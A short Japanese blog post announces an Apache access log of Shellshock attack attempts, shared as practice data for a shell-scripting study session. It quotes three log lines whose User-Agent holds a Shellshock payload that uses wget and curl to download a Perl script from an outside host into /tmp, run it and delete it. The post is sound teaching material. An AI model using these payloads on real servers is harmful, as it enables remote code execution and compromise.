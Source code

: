 ```yaml
---
Keywords: ログ,apache,shellshock,USP友の会,勉強会,シェル芸,シェル芸勉強会
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 第16回シェル芸勉強会で使うログ（邪悪なApache ShellShockログ）を公開します
これは<a href="http://blog.ueda.asia/?p=5620" title="シェル芸が実写化されました">エイプリルフール</a>でもなんでもなく、必要なので公開します。当日公開のほうが盛り上がるかなーと思ったのですが、出し惜しみせずに練習してもらった方がよいかと判断しました。<a href="https://usptomo.doorkeeper.jp/events/22117">第16回シェル芸勉強会のページはこちらです。</a>

今のところ、ログは<a href="http://ita.ee.lbl.gov/html/contrib/NASA-HTTP.html">NASAが公開しているもの</a>と、次のShellshock関連のログ（採取元: 私のブログ）を用いようと考えています。ナマのログを出すとあんまりよくないと考え、IPアドレスは頭をすべて192.168に変換しています。

<!--more-->

<a href="access.log_.shellshock.gz">http://blog.ueda.asia/wp-content/uploads/2015/04/access.log_.shellshock.gz</a>

これが中身です。どんな問題が出るか予想しながらいじってみていただければと。

```bash
uedambp:tmp ueda$ gzcat access.log.shellshock.gz | tail -n 3
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/php HTTP/1.1&quot; 302 219 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;
192.168.225.64 - - [15/Dec/2014:03:12:20 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*\\&quot;);'&quot;
```


ヤバイ・・・


寝る。
